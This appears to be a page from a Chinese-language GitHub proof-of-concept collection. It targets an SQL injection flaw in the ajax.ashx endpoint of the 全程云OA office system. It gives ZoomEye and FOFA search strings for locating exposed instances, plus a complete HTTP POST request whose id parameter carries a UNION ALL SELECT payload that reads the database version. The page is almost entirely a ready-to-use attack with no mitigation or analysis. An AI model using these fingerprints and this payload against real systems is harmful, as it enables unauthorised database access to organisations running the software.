 ## 全程云OA__ajax.ashxSQL注入漏洞

## zoomeye
```
app:"全程云OA"
```

## fofa
```
".passImg{background:url(images/yiyaoshi.png)"
```

## poc
```
POST /OA/common/mod/ajax.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

dll=DispartSell_Core.dll&class=DispartSell_Core.BaseData.DrpDataManager&method=GetProductById&id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,@@version,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+
```


![image](https://github.com/wy876/POC/assets/139549762/7ce08043-58c9-405b-9714-f7854852abf3)
